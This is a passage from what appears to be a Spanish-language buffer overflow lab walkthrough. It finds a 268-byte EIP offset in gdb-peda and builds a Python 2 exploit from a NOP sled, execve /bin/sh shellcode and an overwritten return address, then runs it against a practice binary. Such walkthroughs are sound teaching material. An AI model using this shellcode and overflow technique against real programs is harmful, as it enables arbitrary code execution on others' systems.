 ```bash
```

- Ahora buscamos el `offset` le vamos a pasar el `EIP`.

```bash
gdb-peda$ pattern_offset 0x41332541
1093870913 found at offset: 268
```

- Necesitamos 268 bytes para sobrescribir el `EIP` como no hay una función que nos otorgue una `bash` vamos a definir un `shellcode` podemos usar el siguiente <https://www.exploit-db.com/shellcodes/13628>.

```bash
#!/usr/bin/python2

offset = 268

shellcode  = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x68\x2f"
shellcode += b"\x2f\x73\x68\x68\x2f\x62\x69"
shellcode += b"\x6e\x89\xe3\x31\xc9\xcd\x80"
```

- Ahora vamos a usar `NOP` que no realiza ninguna acción solo es para rellenar el espacio que falta en la memoria para permitir que el flujo del control del programa sea manipulado pero muy importante tenemos que restarle el tamaño del `shellcode` por que no podemos pasarnos de `268 bytes` para no sobrescribir el `EIP`.

```bash
➜  levels cat scriptThree.py
#!/usr/bin/python2
# -*- coding: utf-8 -*-

offset = 268 #En el shellcode son las intrucciones maliciosas

shellcode  = b""
shellcode += b"\x6a\x0b\x58\x99\x52\x68\x2f"
shellcode += b"\x2f\x73\x68\x68\x2f\x62\x69"
shellcode += b"\x6e\x89\xe3\x31\xc9\xcd\x80"

junk = b"\x90" * (offset - len(shellcode)) #x90", representa la instrucción "NOP" en lenguaje de máquina
eip = b"B" * 4 #eip contiene una secuencia de caracteres "B" repetidos 4 veces, lo que representa el valor que se escribirá en el registro EIP.
print(junk + shellcode + eip)
```

- Ahora para probar vamos con `gdb` pasando el `script` como argumento.

```bash
gdb-peda$ run $(python2 scriptThree.py)
Starting program: /home/miguel/StackOverflow/levels/levelThree $(python2 scriptThree.py)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Buf: j
      XRh//shh/bin��BBBB

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
EAX: 0x116
EBX: 0xe3896e69
ECX: 0xffffd0dc --> 0xe67ff500
```